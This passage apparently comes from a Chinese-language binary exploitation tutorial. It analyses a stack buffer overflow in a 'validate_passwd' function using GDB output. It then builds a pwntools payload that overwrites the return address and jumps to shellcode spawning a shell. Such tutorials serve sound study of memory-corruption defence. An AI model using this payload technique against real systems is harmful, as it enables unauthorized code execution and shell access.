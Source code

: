 ```text
   0x000005f0 <+83>:    jmp    0x604 <validate_passwd+103>
   0x000005f2 <+85>:    sub    esp,0xc
   0x000005f5 <+88>:    lea    eax,[ebx-0x190a]
   0x000005fb <+94>:    push   eax
   0x000005fc <+95>:    call   0x420 <puts@plt>
   0x00000601 <+100>:   add    esp,0x10
   0x00000604 <+103>:   nop
   0x00000605 <+104>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x00000608 <+107>:   leave  
   0x00000609 <+108>:   ret
End of assembler dump.
```

通过阅读反汇编代码，我们知道缓冲区 `passwd_buf` 位于 `ebp=0x14` 的位置（`0x000005e4 <+71>:  lea    eax,[ebp-0x14]`），而返回地址在 `ebp+4` 的位置，所以返回地址相对于缓冲区 `0x18` 的位置。我们测试一下：

```text
gdb-peda$ r `python2 -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/a.out `python2 -c 'print "A"*24 + "B"*4 + "C"*233'`
good!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd0f4 ('A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...)
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd490 --> 0x534c0043 ('C')
EDX: 0xffffd1f8 --> 0xffff0043 --> 0x0
ESI: 0xf7f95000 --> 0x1bbd90
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd110 ('C' <repeats 200 times>...)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd110 ('C' <repeats 200 times>...)
0004| 0xffffd114 ('C' <repeats 200 times>...)
0008| 0xffffd118 ('C' <repeats 200 times>...)
0012| 0xffffd11c ('C' <repeats 200 times>...)
0016| 0xffffd120 ('C' <repeats 200 times>...)
0020| 0xffffd124 ('C' <repeats 200 times>...)
0024| 0xffffd128 ('C' <repeats 200 times>...)
0028| 0xffffd12c ('C' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

可以看到 `EIP` 被 `BBBB` 覆盖，相当于我们获得了返回地址的控制权。构建下面的 payload：

```python
from pwn import *

ret_addr = 0xffffd118     # ebp = 0xffffd108
shellcode = shellcraft.i386.sh()

payload = "A" * 24
payload += p32(ret_addr)
payload += "\x90" * 20
payload += asm(shellcode)
payload += "C" * 169      # 24 + 4 + 20 + 44 + 169 = 261
```
